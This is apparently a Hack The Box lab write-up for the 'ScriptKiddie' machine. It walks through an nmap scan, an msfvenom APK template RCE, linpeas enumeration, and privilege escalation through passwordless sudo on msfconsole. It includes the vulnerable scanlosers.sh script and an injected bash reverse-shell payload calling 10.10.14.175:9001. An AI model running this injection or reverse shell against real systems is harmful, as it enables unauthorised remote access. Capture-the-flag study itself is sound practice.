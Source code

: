 # ScriptKiddie

## nmap -sC -sV -oA scriptkiddie.nmap scriptkiddie.htb

Result of scan can be found [here][1]

At first look the web site seems a simple html site in which there are some "hacker tools" 

The webserver is a Werkzeug 0.16.1 Python server 

## Burpsuite

Analyze the request and changing the action to `exec` via Burpsuite the server seems do an echo of what we sent.

## Exploit Metasploit °L°

Searching for some exploit for one of the options in the site, seems that `venom` has an [RCE vulnerability][2] with apk templates.

Using Metasploit we can build a template to inject some command like a reverse shell and get the user flag from kid

Use `ssh-keygen` to create a new rsa keys pairs to get a stable ssh connection to `kid`

## linpeas

[Linpeas scan result][3]

Looking at linpeas result seems that there is another user `pwn`

Inside `pwn` home there is a script `scanlosers.sh` that is probably executed every time `/home/kid/logs/hackers` is modified via `incrontab`

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

We can try to broke the pipe to inject a reverse shell
`   ; /bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.175/9001 0>&1";` will broke the pipe 

## pwn'ed

The user `pwn` can run via sudo metasploit without using password.

`sudo /opt/metasploit-framework-6.0.9/msfconsole` and then run `bash` inside msfconsole to get a root shell.

![htbbadge](https://www.hackthebox.eu/badge/image/272787)

[//]: #links
[1]: scriptkiddie.nmap
[2]: https://www.exploit-db.com/exploits/49491
[3]: lin.txt
